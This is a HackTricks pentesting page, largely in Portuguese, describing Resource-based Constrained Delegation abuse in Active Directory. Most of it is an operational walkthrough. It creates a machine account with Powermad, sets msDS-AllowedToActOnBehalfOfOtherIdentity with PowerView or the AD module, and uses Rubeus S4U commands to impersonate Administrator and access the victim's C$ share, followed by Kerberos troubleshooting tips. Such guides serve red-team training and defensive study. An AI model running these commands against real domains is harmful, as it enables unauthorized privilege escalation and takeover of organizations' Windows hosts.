 # Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Basics of Resource-based Constrained Delegation

Isso é semelhante à [Delegação Constrangida](constrained-delegation.md) básica, mas **em vez** de dar permissões a um **objeto** para **impersonar qualquer usuário contra um serviço**. A Delegação Constrangida Baseada em Recurso **define** no **objeto quem pode impersonar qualquer usuário contra ele**.

Neste caso, o objeto constrangido terá um atributo chamado _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ com o nome do usuário que pode impersonar qualquer outro usuário contra ele.

Outra diferença importante desta Delegação Constrangida em relação às outras delegações é que qualquer usuário com **permissões de escrita sobre uma conta de máquina** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) pode definir o _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (Nas outras formas de Delegação, você precisava de privilégios de administrador de domínio).

### New Concepts

Na Delegação Constrangida, foi dito que a **`TrustedToAuthForDelegation`** flag dentro do valor _userAccountControl_ do usuário é necessária para realizar um **S4U2Self.** Mas isso não é completamente verdade.\
A realidade é que mesmo sem esse valor, você pode realizar um **S4U2Self** contra qualquer usuário se você for um **serviço** (tiver um SPN), mas, se você **tiver `TrustedToAuthForDelegation`** o TGS retornado será **Forwardable** e se você **não tiver** essa flag, o TGS retornado **não será** **Forwardable**.

No entanto, se o **TGS** usado em **S4U2Proxy** **NÃO for Forwardable**, tentar abusar de uma **delegação constrangida básica** **não funcionará**. Mas se você estiver tentando explorar uma **delegação constrangida baseada em recurso, funcionará** (isso não é uma vulnerabilidade, é um recurso, aparentemente).

### Attack structure

> Se você tiver **privilégios de escrita equivalentes** sobre uma conta de **Computador**, pode obter **acesso privilegiado** nessa máquina.

Suponha que o atacante já tenha **privilégios de escrita equivalentes sobre o computador da vítima**.

1. O atacante **compromete** uma conta que tem um **SPN** ou **cria um** (“Serviço A”). Observe que **qualquer** _Usuário Admin_ sem nenhum outro privilégio especial pode **criar** até 10 **objetos de Computador (**_**MachineAccountQuota**_**)** e definir um **SPN** para eles. Portanto, o atacante pode simplesmente criar um objeto de Computador e definir um SPN.
2. O atacante **abusa de seu privilégio de ESCRITA** sobre o computador da vítima (ServiçoB) para configurar **delegação constrangida baseada em recurso para permitir que o ServiçoA impersonifique qualquer usuário** contra aquele computador da vítima (ServiçoB).
3. O atacante usa Rubeus para realizar um **ataque S4U completo** (S4U2Self e S4U2Proxy) do Serviço A para o Serviço B para um usuário **com acesso privilegiado ao Serviço B**.
1. S4U2Self (da conta SPN comprometida/criada): Solicitar um **TGS de Administrador para mim** (Não Forwardable).
2. S4U2Proxy: Usar o **TGS não Forwardable** do passo anterior para solicitar um **TGS** de **Administrador** para o **host da vítima**.
3. Mesmo que você esteja usando um TGS não Forwardable, como você está explorando a delegação constrangida baseada em recurso, funcionará.
4. O atacante pode **passar o ticket** e **impersonar** o usuário para obter **acesso ao ServiçoB da vítima**.

Para verificar o _**MachineAccountQuota**_ do domínio, você pode usar:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Ataque

### Criando um Objeto de Computador

Você pode criar um objeto de computador dentro do domínio usando [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Configurando Delegação Constrangida Baseada em Recurso

**Usando o módulo PowerShell do Active Directory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Usando powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Realizando um ataque S4U completo

Primeiro de tudo, criamos o novo objeto Computador com a senha `123456`, então precisamos do hash dessa senha:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Isso imprimirá os hashes RC4 e AES para essa conta.\
Agora, o ataque pode ser realizado:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Você pode gerar mais tickets apenas pedindo uma vez usando o parâmetro `/altservice` do Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Observe que os usuários têm um atributo chamado "**Não pode ser delegado**". Se um usuário tiver esse atributo como Verdadeiro, você não poderá se passar por ele. Essa propriedade pode ser vista dentro do bloodhound.
{% endhint %}

### Acessando

A última linha de comando realizará o **ataque S4U completo e injetará o TGS** do Administrador para o host da vítima na **memória**.\
Neste exemplo, foi solicitado um TGS para o serviço **CIFS** do Administrador, então você poderá acessar **C$**:
```bash
ls \\victim.domain.local\C$
```
### Abuse different service tickets

Aprenda sobre os [**tickets de serviço disponíveis aqui**](silver-ticket.md#available-services).

## Erros do Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Isso significa que o kerberos está configurado para não usar DES ou RC4 e você está fornecendo apenas o hash RC4. Forneça ao Rubeus pelo menos o hash AES256 (ou forneça os hashes rc4, aes128 e aes256). Exemplo: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Isso significa que o horário do computador atual é diferente do do DC e o kerberos não está funcionando corretamente.
* **`preauth_failed`**: Isso significa que o nome de usuário + hashes fornecidos não estão funcionando para login. Você pode ter esquecido de colocar o "$" dentro do nome de usuário ao gerar os hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Isso pode significar:
* O usuário que você está tentando impersonar não pode acessar o serviço desejado (porque você não pode impersoná-lo ou porque ele não tem privilégios suficientes)
* O serviço solicitado não existe (se você pedir um ticket para winrm, mas o winrm não está em execução)
* O fakecomputer criado perdeu seus privilégios sobre o servidor vulnerável e você precisa recuperá-los.

## Referências

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
